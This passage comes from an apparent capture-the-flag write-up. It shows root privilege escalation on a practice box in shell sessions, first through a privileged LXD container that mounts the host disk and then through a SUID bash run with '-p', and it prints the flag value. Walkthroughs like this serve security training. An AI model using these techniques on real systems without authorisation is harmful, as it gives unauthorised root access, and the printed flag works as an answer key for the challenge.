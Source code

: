 Then we just boot the image, mounting the host disk and access the root flag.

    :::text
    -bash-5.0$ /snap/bin/lxc init myimage mycontainer -c security.privileged=true
    Creating mycontainer
    -bash-5.0$ /snap/bin/lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to mycontainer
    -bash-5.0$ /snap/bin/lxc  start mycontainer
    -bash-5.0$ /snap/bin/lxc exec mycontainer /bin/sh
    ~ # ls /mnt/root/
    bin         cdrom       etc         lib         lib64       lost+found  mnt         proc        run         snap        swap.img    tmp         var
    boot        dev         home        lib32       libx32      media       opt         root        sbin        srv         sys         usr
    ~ # ls /mnt/root/root/
    fix-wordpress  flag.txt       snap
    ~ # ls /mnt/root/root/flag.txt
    /mnt/root/root/flag.txt
    ~ # cat /mnt/root/root/flag.txt
    d73b04b0e696b0945283defa3eee4538

## SUID bash

We can also list the SUID binary and found that `/usr/bin/bash` is SUID.

    :::text
    -bash-5.0$ find / -uid 0 -perm -4000 -type f 2>/dev/null
    <SNIP>
    /usr/bin/sudo
    /usr/bin/chfn
    /usr/bin/bash
    /usr/bin/pkexec
    /usr/bin/umount
    /usr/bin/chsh
    /usr/bin/su

We just use the `-p` option in order to have a shell as root.

    :::text
    -bash-5.0$ bash -p
    bash-5.0# id
    uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
    bash-5.0# cat /root/flag.txt
    d73b04b0e696b0945283defa3eee4538

# Wrapping up

The box was really easy, a nice job from FalconSpy as it will allow "beginners"
to enter the give away.
